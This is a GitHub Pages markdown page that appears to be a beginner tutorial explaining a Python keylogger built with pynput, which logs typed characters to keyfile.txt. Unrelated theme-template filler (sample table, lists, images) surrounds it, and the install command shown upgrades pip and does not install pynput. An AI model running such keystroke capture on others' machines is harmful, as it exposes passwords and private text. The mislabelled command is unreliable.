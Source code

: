 ```yaml
---
layout: default
---
```


Text can be **bold**, _italic_, or ~~strikethrough~~.

[Link to another page](./another-page.html).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.

# Installing and importing the required module and packages

For this project we need to install the _pynput_ package and make use of the _keyboard_ module.

The _keyboard_ moduel is required to monitor keyboard inputs. This allows for the program to listen for key presses.

> The package can be installed via the _Terminal_ using the following command:
>
> python.exe -m pip install --upgrade pip

Once the package is installed, we need to import the module using the following line:

```python
# Importing the necessary module
from pynput import keyboard
```

# Creating a function

Firstly, we define a function named _keyPressed_ that takes a _key_ parameter which represents the key that is pressed.

A print line is added to see the real-time presses.

The function then creates a file named "keyfile.txt" in append mode so that previous content in the file is not overwritten. This file will keep a record of all keys pressed. The _with_ ensures the file is properly closed after the code is executed.

Inside the _try_ block, the code attempts to get the character representation of the pressed key and if successfull it writes this character to "keyfile.txt" file.

The _except_ is used in case there are any exception that occur (when the key pressed doesnt have a character representaion, like Shift or Ctrl) in which case it will print out the message "Error getting char".

```python
def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")
```

# Main code

This block of code sets up the keyboard listener, starts it running in the background, and then keeps the main program running indefinitely (or until the user decides to end it by pressing Enter). This allows the script to continuously monitor and log keystrokes for as long as it's left running.

```python
# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

###### Header 6

| head1        | head two          | three |
|:-------------|:------------------|:------|
| ok           | good swedish fish | nice  |
| out of stock | good and plenty   | nice  |
| ok           | good `oreos`      | hmm   |
| ok           | good `zoute` drop | yumm  |

### There's a horizontal rule below this.

* * *

### Here is an unordered list:

*   Item foo
*   Item bar
*   Item baz
*   Item zip

### And an ordered list:

1.  Item one
1.  Item two
1.  Item three
1.  Item four

### And a nested list:

- level 1 item
  - level 2 item
  - level 2 item
    - level 3 item
    - level 3 item
- level 1 item
  - level 2 item
  - level 2 item
  - level 2 item
- level 1 item
  - level 2 item
  - level 2 item
- level 1 item

### Small image

![Octocat](https://github.githubassets.com/images/icons/emoji/octocat.png)

### Large image

![Branching](https://guides.github.com/activities/hello-world/branching.png)


### Definition lists can be used with HTML syntax.

<dl>
<dt>Name</dt>
<dd>Godzilla</dd>
<dt>Born</dt>
<dd>1952</dd>
<dt>Birthplace</dt>
<dd>Japan</dd>
<dt>Color</dt>
<dd>Green</dd>
</dl>

```
Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
```

```
The final element.
```
